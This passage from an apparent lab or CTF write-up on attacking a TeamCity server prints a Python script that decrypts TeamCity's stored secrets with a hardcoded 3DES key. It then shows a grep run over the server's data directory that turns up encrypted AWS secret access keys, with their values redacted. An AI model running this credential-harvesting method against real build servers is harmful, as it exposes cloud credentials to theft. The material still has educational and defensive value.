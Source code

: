 ```
    print "ex: ./teamcity-secret-decrypt.py zxxb1b64ad3319d8d0ba7e5744b9e50a0fb"
    exit()
    
def main():
    if len(sys.argv) != 2:
        usage()  
    
    # Hardcoded decryption key - should be the same for all version and instances of TeamCity for the last few years at least.
    key =  binascii.unhexlify("3d160b396e59ecff00636f883704f70a0b2d47a7159d3633")
    
    decryptor = DES3.new(key, DES3.MODE_ECB)
    
    # Check input string
    encdata = sys.argv[1]
    if (encdata[:3] != "zxx"):
        print "Invalid encrypted credential format.  Example encrypted credential: zxxb1b64ad3319d8d0ba7e5744b9e50a0fb"
        exit()
            
    encdata = encdata[3:]
    encdatabinary = binascii.unhexlify(encdata)
    
    # Decrypt (PKCS5 padding isn't accounted for, seems like it's easy enough to spot at the end of output and ignore though!)
    out = decryptor.decrypt(encdatabinary)
    
    print out

if __name__ == '__main__':
    main()
```

Seems like all TeamCity encrypted secrets start with `zxx`. Searching online we find that TeamCity secrets are stored within the data directory, which in our instance is set to `/root/.BuildServer`.

![](pwn-teamcity-in-the-cloud-10.png)

We run `grep -R zxx` which returns secrets
```
root@ip-10-1-20-225:~/.BuildServer# grep -R zxx
config/projects/InitialSetupCheck/project-config.xml:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
config/projects/InitialSetupCheck/project-config.xml:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
config/projects/InitialSetupCheck/project-config.xml.3:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
config/projects/InitialSetupCheck/project-config.xml.3:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
config/projects/InitialSetupCheck/project-config.xml.2:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
config/projects/InitialSetupCheck/project-config.xml.2:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
config/projects/InitialSetupCheck/project-config.xml.1:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
config/projects/InitialSetupCheck/project-config.xml.1:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.2:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.5:        <param name="secure:awsSecretAccessKey" value="zxxd<REDACTED>0d301b" />
system/pluginData/audit/configHistory/projects/project1/config.xml.5:        <param name="secure:aws.secret.access.key" value="zxxd<REDACTED>0d301b" />
```